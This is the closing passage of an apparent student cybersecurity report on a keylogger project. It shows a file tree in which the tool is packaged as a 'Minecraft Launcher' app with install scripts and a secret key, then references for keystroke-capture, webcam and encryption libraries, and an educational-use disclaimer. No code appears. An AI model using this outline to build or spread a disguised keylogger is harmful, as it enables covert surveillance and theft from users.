│   │   ├── Stop_Minecraft.sh
│   │   ├── secret.key
│   │   └── README_LINUX.md
│   │
│   └── release_android/ (Android)
│       ├── Minecraft_Launcher.apk
│       ├── install_android.sh
│       ├── uninstall_android.sh
│       └── README_ANDROID.md
│
└── Documentation
    ├── README.md
    ├── BUILD_INSTRUCTIONS.md
    ├── TRANSFER_TO_LINUX.md
    └── CYBERSECURITY_INTERNSHIP_REPORT.md (this file)
```

---

## References

1. **Python Libraries:**
   - pynput: https://pynput.readthedocs.io/
   - cryptography: https://cryptography.io/
   - OpenCV: https://opencv.org/

2. **Security Standards:**
   - NIST AES: https://csrc.nist.gov/publications/fips/fips197/fips-197.pdf
   - Fernet Spec: https://github.com/fernet/spec/

3. **Legal Resources:**
   - Computer Fraud and Abuse Act: 18 U.S.C. § 1030
   - GDPR: https://gdpr.eu/
   - Computer Misuse Act 1990: https://www.legislation.gov.uk/

4. **Build Tools:**
   - PyInstaller: https://pyinstaller.org/
   - Buildozer: https://buildozer.readthedocs.io/

---

**Report Prepared By:** [Your Name]  
**Date:** November 22, 2025  
**Purpose:** Cybersecurity Internship Portfolio  
**Classification:** Educational Research Only

---

**DISCLAIMER:** This report and associated code are provided for educational and research purposes only. Unauthorized use of keylogging software is illegal and unethical. The author assumes no responsibility for misuse of this information.
